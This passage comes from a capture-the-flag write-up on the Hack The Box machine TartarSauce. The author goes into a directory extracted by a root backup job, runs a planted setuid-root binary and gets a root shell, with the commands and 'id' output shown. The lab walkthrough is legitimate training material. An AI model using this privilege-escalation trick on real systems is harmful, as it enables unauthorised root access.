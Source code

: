     drwx------  3 root  root  4096 Oct 20 11:14 systemd-private-b120a3d973224fcfb7073b9bfabac416-systemd-timesyncd.service-f9rGuA
    drwx------  3 root  root  4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
    

### Get Shell

Wait for 30 seconds and then go into `check`, find the shell, and run it:

    
    
    onuma@TartarSauce:/var/tmp$ cd check/var/www/html
    onuma@TartarSauce:/var/tmp/check/var/www/html$ ls
    suid
    onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -l
    total 16
    -r-sr-sr-x 1 root root 15484 Oct 21 13:58 suid
    onuma@TartarSauce:/var/tmp/check/var/www/html$ ./suid
    ./suid
    id
    uid=0(root) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
    

Now I’ve got a root shell on TartarSauce.

[« HTB: TartarSauce](/2018/10/20/htb-tartarsauce.html)

[](/2018/10/21/htb-tartarsauce-part-2-backuperer-follow-up.html)

